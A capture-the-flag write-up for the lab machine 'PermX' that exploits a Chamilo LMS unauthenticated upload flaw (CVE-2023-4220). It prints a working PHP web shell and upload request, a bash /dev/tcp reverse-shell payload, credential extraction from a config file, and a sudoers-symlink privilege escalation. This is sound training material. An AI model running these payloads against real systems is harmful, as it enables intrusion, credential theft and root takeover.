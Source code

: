 

# PermX Writeup

## Overview
**Machine Name:** PermX  
**Date:** 24th October 2024  
**Difficulty:** Easy  

## Synopsis
PermX is an Easy difficulty Linux machine featuring a learning management system vulnerable to unrestricted file uploads via **CVE-2023-4220**. This vulnerability is leveraged to gain a foothold on the machine. Enumerating the machine reveals credentials that lead to **SSH access**. A **sudo misconfiguration** is then exploited to gain a root shell.

## Skills Required
- Linux Command Line
- Web Enumeration

## Skills Learned
- Linux Enumeration
- Sudo Exploitation

---

## Enumeration
### **Nmap Scan**
Scanning the target with **Nmap** reveals two open TCP ports:
- **Port 22**: SSH (OpenSSH 8.9p1 Ubuntu)
- **Port 80**: Apache web server

```bash
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.11.23
```

Output:
```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu
80/tcp  open  http    Apache/2.4.52
```
To access the web server, add the domain to the **hosts file**:
```bash
echo "10.10.11.23  permx.htb" | sudo tee -a /etc/hosts
```

### **Subdomain Enumeration**
Using **ffuf** to enumerate subdomains:
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt \
-H "Host: FUZZ.permx.htb" -u http://permx.htb -t 200 -ic
```

Identified subdomains:
- `www.permx.htb`
- `lms.permx.htb`

Adding the LMS subdomain to `/etc/hosts`:
```bash
echo "10.10.11.23  lms.permx.htb" | sudo tee -a /etc/hosts
```

---

## Exploitation
### **CVE-2023-4220 - Unrestricted File Upload**
Chamilo LMS is vulnerable to **unauthenticated file upload**.

Creating a **PHP web shell**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
Uploading the web shell:
```bash
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
Verifying execution:
```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
```
Expected output:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### **Reverse Shell**
Starting a **Netcat listener**:
```bash
nc -lnvp {{PORT}}
```
Creating and uploading a **reverse shell payload**:
```bash
echo '<?php system("bash -c \'bash -i >& /dev/tcp/{{IP}}/{{PORT}} 0>&1\'"); ?>' > rev.php
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
Triggering the reverse shell:
```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'
```
Successful connection on **Netcat listener**:
```
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.23] 39022
```

### **Obtaining User Credentials**
Dumping the **Chamilo configuration file**:
```bash
cat /var/www/chamilo/app/config/configuration.php
```
Extracted credentials:
```
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```
Using these credentials to SSH into the server:
```bash
ssh mtz@permx.htb
```
Obtaining the **user flag**:
```bash
cat user.txt
```

---

## Privilege Escalation
### **Sudo Misconfiguration**
Checking sudo privileges:
```bash
sudo -l
```
Output:
```
User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
Inspecting **acl.sh**:
```bash
cat /opt/acl.sh
```
The script modifies file **ACLs** in `/home/mtz/` and allows arbitrary file access.

### **Exploiting ACL Misconfiguration**
Creating a **symbolic link** to `/etc/sudoers`:
```bash
ln -s /etc/sudoers /home/mtz/root
```
Granting write permissions via `acl.sh`:
```bash
sudo /opt/acl.sh mtz rw /home/mtz/root
```
Appending a **new sudo rule** to escalate privileges:
```bash
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```
Getting a **root shell**:
```bash
sudo bash
```
Confirming root access:
```bash
id
```
Expected output:
```
uid=0(root) gid=0(root) groups=0(root)
```
Extracting the **root flag**:
```bash
cat /root/root.txt
```

---

## Conclusion
- **Gained foothold** using CVE-2023-4220 file upload vulnerability.
- **Escalated privileges** via a misconfigured ACL script.
- **Successfully rooted** the machine and obtained all required flags.

**Key Takeaways:**
- Always sanitize file uploads to prevent **RCE vulnerabilities**.
- Ensure **sudo permissions** do not allow unrestricted execution of scripts that manipulate system files.
- Enforce **least privilege principles** to reduce risk exposure.

**End of Writeup**
